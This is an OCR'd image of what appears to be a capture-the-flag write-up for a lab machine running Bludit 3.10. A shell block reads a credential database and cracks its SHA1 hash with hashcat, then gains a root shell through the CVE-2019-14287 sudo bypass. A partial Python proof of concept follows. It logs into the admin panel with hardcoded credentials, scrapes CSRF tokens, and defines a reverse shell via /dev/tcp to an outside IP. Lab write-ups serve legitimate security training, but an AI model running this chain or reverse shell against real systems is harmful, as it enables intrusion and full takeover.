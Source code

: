 ```shell
cat /var/www/bludit-3.10.0a/bl-content/databases/users.php
#contains unsalted SHA1 hash
#for user 'hugo'

#on attacker machine
hashcat -a 0 -m 100 hash.txt /usr/share/wordlists/kaonashi.txt
#cracks the password

su hugo
#use cracked hash

cat user.txt

sudo -l
#we can execute bash as all users but root
#this mentions !root

#follow CVE-2019-14287
sudo -u#-1 /bin/bash

#we get root shell
```

```python
#!/usr/bin/env python

import requests
import re

# PoC by @hg8
# Credit: @christasa
# https://github.com/bludit/bludit/issues/1081

url = "http://blunder.htb"
user = "fergus"
password = "RolandDeschain"
cmd = "bash -c 'sh -i >& /dev/tcp/10.10.14.8/443 0>&1'"


def admin_login():
    s = requests.Session()
    login_page = s.get(f"{url}/admin/")
    csrf_token = re.search('"tokenCSRF".+?value="(.+?)"', login_page.text).group(1)

    data = {
        "username": user,
        "password": password,
        "tokenCSRF": csrf_token
    }

    r = s.post(f"{url}/admin/", data, allow_redirects=False)

    if r.status_code != 301:
        print("[!] Username or password incorrect.")
        exit()

    print("[+] Login successful.")
    return s


def get_csrf(s):
    r = s.get(f"{url}/admin/")
    csrf_token = r.text.split('var tokenCSRF = "')[1].split('"')[0]
    print(f"[+] Token CSRF: {csrf_token}")
```